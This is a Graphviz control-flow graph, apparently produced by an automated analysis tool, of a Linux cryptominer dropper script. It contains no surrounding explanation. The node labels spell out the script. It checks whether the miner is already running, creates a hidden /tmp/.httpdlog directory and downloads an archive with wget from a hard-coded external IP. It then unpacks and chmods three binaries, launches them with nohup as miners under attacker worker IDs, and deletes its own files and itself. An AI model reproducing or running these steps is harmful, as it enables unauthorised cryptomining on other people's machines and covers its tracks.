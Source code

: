 digraph {
74 [label="rm -f /tmp/httpdlog/*.gz "];
74 -> 74
76 [label="rm -f *.gz "];
76 -> 76
22 [label="rm -f *.sh "];
22 -> 22
88 [label="rm -f $0 "];
88 -> 88
8 [label="ret=`ps -ef|grep  qwe15884889.01 |grep -v grep` "];
8 -> 8
10 [label="ps -ef "];
10 -> 12 [label="N,N,N,"];
12 [label="grep qwe15884889.01 "];
12 -> 14 [label="N,"];
14 [label="grep -v grep "];
14 -> 16 [label="N,"];
16 [label="[ -n $ret ] "];
16 -> 74 [label="SC,N,if,"];
74 [label="rm -f /tmp/httpdlog/*.gz "];
74 -> 76 [label="then,"];
76 [label="rm -f *.gz "];
76 -> 22 [label="\n,"];
22 [label="rm -f *.sh "];
22 -> 88 [label="\n,"];
88 [label="rm -f $0 "];
88 -> 88 [label="\n,"];
88 [label="rm -f $0 "];
88 -> 88 [label="\n,"];
88 [label="rm -f $0 "];
88 -> 88 [label="\n,"];
88 [label="rm -f $0 "];
88 -> 88 [label="\n,"];
88 [label="rm -f $0 "];
88 -> 88 [label="\n,"];
88 [label="rm -f $0 "];
88 -> 88 [label="\n,"];
88 [label="rm -f $0 "];
88 -> 88 [label="\n,"];
88 [label="rm -f $0 "];
88 -> 88 [label="\n,"];
88 [label="rm -f $0 "];
88 -> 88 [label="\n,"];
88 [label="rm -f $0 "];
88 -> 88 [label="\n,"];
88 [label="rm -f $0 "];
88 -> 88 [label="\n,"];
88 [label="rm -f $0 "];
88 -> 88 [label="\n,"];
88 [label="rm -f $0 "];
88 -> 88 [label="\n,"];
88 [label="rm -f $0 "];
88 -> 52 [label="\n,"];
52 [label="echo yes "];
52 -> 54 [label="\n,"];
54 [label="mkdir /tmp/.httpdlog "];
54 -> 56 [label="\n,else,"];
56 [label="cd /tmp/.httpdlog "];
56 -> 58 [label="\n,"];
58 [label="typeos=`getconf LONG_BIT` "];
58 -> 60 [label="\n,"];
60 [label="getconf LONG_BIT "];
60 -> 62 [label="N,N,"];
62 [label="[ $typeos = 64 ] "];
62 -> 64 [label="\n,SC,N,if,"];
64 [label="wget http://119.249.54.100:8846/mall.tar.gz -O my.tar.gz "];
64 -> 66 [label="then,"];
66 [label="tar zxvf my.tar.gz "];
66 -> 68 [label="fi,\n,"];
68 [label="chmod 777 ./mstbcn "];
68 -> 70 [label="\n,"];
70 [label="chmod 777 ./mstrie "];
70 -> 72 [label="\n,"];
72 [label="chmod 777 ./mstxcn "];
72 -> 74 [label="\n,"];
74 [label="rm -f /tmp/httpdlog/*.gz "];
74 -> 76 [label="\n,"];
76 [label="rm -f *.gz "];
76 -> 78 [label="\n,"];
78 [label="nohup ./mstbcn -a cryptonight -o bcn -u qwe15884889.01 -p x -B /dev/null "];
78 -> 86 [label="\n,"];
86 [label="/dev/null "];
86 -> 86
81 [label="nohup ./mstrie -m -o ric -u qwe15884889.02 -p x /dev/null "];
81 -> 86 [label="&,"];
86 [label="/dev/null "];
86 -> 86
84 [label="nohup ./mstxcn -a m7 -o bcn -u qwe15884889.01 -p x /dev/null "];
84 -> 86 [label="&,"];
86 [label="/dev/null "];
86 -> 86
87 [label="echo ok "];
87 -> 88 [label="&,"];
}

